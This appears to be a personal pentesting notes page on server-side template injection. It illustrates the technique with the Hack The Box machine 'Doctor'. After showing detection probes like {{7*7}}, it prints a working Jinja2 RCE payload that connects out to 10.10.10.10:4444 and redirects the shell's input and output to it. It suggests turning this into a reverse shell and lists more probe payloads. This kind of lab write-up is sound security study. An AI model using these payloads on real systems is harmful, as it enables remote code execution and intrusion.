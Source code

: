 ```yaml
---
description: '{{7*7}}'
---
```


# Server-Side Template Injection

SSTI exploits Template Engines, like node.js, Flask, Twig used in web applications. These engines are used by web apps to present dynamic data via web pages and emails. However, template injection occurs when the user input is embedded in a template in an unsafe manner.

## How it Works

Template injection works because websites fail to take in the data as just text, but rather process it and directly use it as part of a template, thus allowing attackers to inject template directives to manipulate the template engine used. This often leads to RCE.

To test for this, we can follow this flowchart:

<figure><img src="../.gitbook/assets/image (10) (1) (4).png" alt=""><figcaption></figcaption></figure>

A successful injection would result in '49' being output, showing that the website does indeed process the template injected and confirming that we have RCE.

## Example

The HTB machine Doctor has a good SSTI vulnerability within it.

The machine has a secret page that allows for posts by the user to be made with a **title** and **content.** We do not know the template engine being used yet.&#x20;

<figure><img src="../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>

We can straightaway begin testing for SSTI via this. After using `{{7*7}}`, we would see the following:

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

The 49 present indicates that it worked, and that the other payload was not processed. Further testing with `{{7*'7'}}`would dispaly this:

<figure><img src="../.gitbook/assets/image (19) (4).png" alt=""><figcaption></figcaption></figure>

From here, based on the flowchart, we would know that the website is running on either Jinja2 or Twig. We can then grab a payload for potential RCE using PayloadAllTheThings:

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
{% endraw %}
```

Editing the payload to give us a reverse shell would work on this machine.&#x20;

SSTI is rather easy to exploit once found. Here are some other payloads that we can use:

```
${}
${7/0}
{{}}
{{7*7}}
<%= %>
<%= 7*7 %>
``
```

Once the template has been identified, attempt exploitation via the relevant payload.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection" %}
